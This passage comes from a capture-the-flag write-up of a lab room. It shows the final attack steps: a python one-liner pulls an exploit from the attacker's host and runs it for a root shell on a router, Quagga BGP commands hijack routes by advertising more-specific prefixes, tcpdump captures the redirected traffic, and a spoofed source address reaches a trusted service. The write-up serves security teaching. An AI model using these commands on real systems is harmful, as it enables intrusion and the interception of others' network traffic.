
I then transferred the exploit script to the victim machine and ran it internally, which was much easier than trying to tunnel the vulnerable service out first.
python3 -c 'import urllib.request; urllib.request.urlretrieve("http://YOUR_TUN0_IP:8000/49757.py", "/tmp/49757.py")'
python3 /tmp/49757.py 172.16.1.128That provided a root shell on the internal router host.

Getting the UDP Flag
Once root access was obtained on the router, I moved into the
router CLI because the presence of port 179 and the
Quagga services made it clear that this host was handling routing.
vtysh
Hello, this is Quagga (version 1.2.4).
Copyright 1996-2005 Kunihiro Ishiguro, et al.
router1.ctx.ctf# show ip bgp
BGP table version is 0, local router ID is 1.1.1.1
Network Next Hop Metric LocPrf Weight Path
*> 172.16.1.0/24 0.0.0.0 0 32768 i
* 172.16.2.0/24 172.16.31.103 100 60003 60002 i
*> 172.16.12.102 0 100 60002 i
* 172.16.3.0/24 172.16.12.102 100 60002 60003 i
*> 172.16.31.103 0 100 60003 iI then advertised more specific prefixes so traffic for those networks would prefer my router, effectively placing me in the middle of the flow.
config terminal
router bgp 60001
network 172.16.2.0/25
network 172.16.3.0/25
end
clear ip bgp *
After exiting back to the root shell, I used
tcpdump to watch the redirected traffic and capture
the UDP flag.
tcpdump -i eth0 -A | grep UDPGetting the TCP Flag
The BGP table also revealed another reachable network segment. Once
I scanned that range, I found a host listening on port
5555.
To access the service as a trusted source, I added an address from the expected range to my interface:
ip addr add 172.16.2.10/25 dev eth0After that, I connected to the TCP flag service using the chosen source IP:
nc -s 172.16.2.10 172.16.3.10 5555That returned the TCP flag directly.
Lessons Learned
Borderlands is a strong reminder that separate weaknesses rarely stay separate for long. A public Git repository exposed backend logic. The APK exposed encrypted client-side material. SQL injection led to code execution. Internal enumeration uncovered a vulnerable FTP daemon. Finally, control of a router made it possible to manipulate traffic and steal flags directly from the network.
The room is a good example of how modern compromise often works: not by a single bug, but by chaining information leaks, internal trust assumptions, and protocol misuse together.